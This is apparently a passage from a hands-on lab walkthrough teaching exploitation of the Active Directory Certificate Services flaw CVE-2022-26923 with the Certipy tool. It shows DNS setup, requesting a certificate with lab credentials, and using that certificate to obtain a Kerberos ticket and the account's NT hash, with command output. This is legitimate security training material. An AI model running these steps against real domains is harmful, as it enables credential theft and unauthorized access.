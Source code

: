 Now that we have covered the theory. Let's see it in action.

Configuring DNS  

First, we need to configure some DNS values. Modify your `/etc/hosts` file and add the following entry:

/etc/hosts

```shell-session
10.10.188.193 lundc.lunar.eruca.com lundc lunar-LUNDC-CA lunar.eruca.com
```

Testing Certificate Generation

Similar to the blog post, we will use [Certipy](https://github.com/ly4k/Certipy) for our exploitation, which has been installed for you on the AttackBox. Certipy is an offensive tool for enumeration and exploitation of AD CS vulnerabilities and misconfigurations. It integrates with [Impacket](https://github.com/SecureAuthCorp/impacket) for some of the exploits, so if you are installing this on your own machine, make sure to update Impacket as well. We have created a virtual python environment with all of these tools. If you are using the AttackBox, start by activating the virtual environment:

AttackBox Terminal

```shell-session
[thm@thm]$ source /root/Rooms/CVE2022-26923/certipy/bin/activate
```

Let's first get our feet wet with generating a certificate for our low-privileged AD user (Username=thm Password=Password1@) using the User certificate template:

AttackBox Terminal

```shell-session
(certipy) [thm@thm]$ certipy req 'lunar.eruca.com/thm:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with UPN 'thm@lunar.eruca.com'
[*] Saved certificate and private key to 'thm.pfx'
```

**Note: If you get a timeout error for this command or any of the rest of the Certipy commands, just wait two seconds and then run it again. Unfortunately, with a UDP VPN connection, it is not always sufficiently stable for these requests to pass through.**

We can verify that this certificate is valid and can be used for Kerberos authentication through Certipy as well:

AttackBox Terminal

```shell-session
(certipy) [thm@thm]$ certipy auth -pfx thm.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: thm@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thm.ccache'
[*] Trying to retrieve NT hash for 'thm'
[*] Got NT hash for 'thm@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a
```
